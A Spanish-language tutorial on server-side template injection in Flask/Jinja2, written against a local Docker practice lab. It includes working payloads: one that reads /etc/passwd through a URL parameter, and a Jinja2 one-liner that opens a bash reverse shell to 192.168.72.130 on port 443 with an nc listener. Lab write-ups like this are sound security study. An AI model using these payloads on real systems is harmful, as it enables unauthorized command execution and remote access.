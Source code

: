 

----
- Tag: #SERVER-SIDE #TEMPLATE #INJECTION #SSTI
----

El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **WhatWeb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.

---
# Iniciamos con la practica en nuestro entorno

- Desplegamos nuestro docker
```
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
```
 - Una vez desplegado la maquina entramos por el navegador por el puerto 8089
 - Si ingresamos un nombre en el espacio de usuario nos daremos cuenta que es inyectable de codigo en la parte de la URL
 - También podemos ánilizar el tipo de lenguajes que contiene la red con `whatwep localhost:8089`
 - Podemos realizar un intento de ingresar código en el **IMPUT** para ver si nos devuelve una respuesta valida en el **OUTPUT** como `{{7*7}}`
 - Buscamos nuestro payload en nuestro Recurso de github de **Payloads All The Things** 
 ejemplo de la **Server-Side Template Injection**
```
http://localhost:8089/?user={{%20get_flashed_messages.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}} 
```

## Ahora si queremos obtener acceso a la maquina tendríamos que hacer lo siguiente

- Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```

- Y en la URL le cargamos el tipíco one liner 
- {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/192.168.72.130/443 0>%261"').read() }}
Y listo con esto tendríamos acceso a la maquina en nuestra terminal :)


# Recursos 
- En este link podemos encontrar varios payloads para usar [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

